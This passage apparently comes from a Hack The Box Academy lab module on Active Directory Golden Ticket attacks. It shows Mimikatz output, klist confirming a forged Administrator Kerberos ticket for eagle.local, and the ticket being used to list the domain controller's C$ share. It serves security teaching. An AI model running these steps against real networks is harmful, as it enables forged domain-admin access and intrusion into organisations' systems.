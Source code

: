 ```cmd-session
```

![Golden Ticket](https://academy.hackthebox.com/storage/modules/176/A8/kerbTicket.png)

The output shows that `Mimikatz` injected the ticket in the current session, and we can verify that by running the command `klist` (after exiting from `Mimikatz`):

  Golden Ticket

```cmd-session
mimikatz # exit

Bye!

C:\Mimikatz>klist

Current LogonId is 0:0x9cbd6

Cached Tickets: (1)

#0>     Client: Administrator @ eagle.local
        Server: krbtgt/eagle.local @ eagle.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 10/13/2022 13/10/2022 06.28.43 (local)
        End Time:   10/13/2022 13/10/2022 06.36.43 (local)
        Renew Time: 10/13/2022 13/10/2022 06.35.43 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

![Golden Ticket](https://academy.hackthebox.com/storage/modules/176/A8/injectedTicket.png)

To verify that the ticket is working, we can list the content of the `C$` share of `DC1` using it:

  Golden Ticket

```cmd-session
C:\Mimikatz>dir \\dc1\c$

 Volume in drive \\dc1\c$ has no label.
 Volume Serial Number is 2CD0-9665

 Directory of \\dc1\c$

15/10/2022  08.30    <DIR>          DFSReports
13/10/2022  13.23    <DIR>          Mimikatz
01/09/2022  11.49    <DIR>          PerfLogs
28/11/2022  01.59    <DIR>          Program Files
01/09/2022  04.02    <DIR>          Program Files (x86)
13/12/2022  02.22    <DIR>          scripts
07/08/2022  11.31    <DIR>          Users
28/11/2022  02.27    <DIR>          Windows
               0 File(s)              0 bytes
               8 Dir(s)  44.947.984.384 bytes free
```

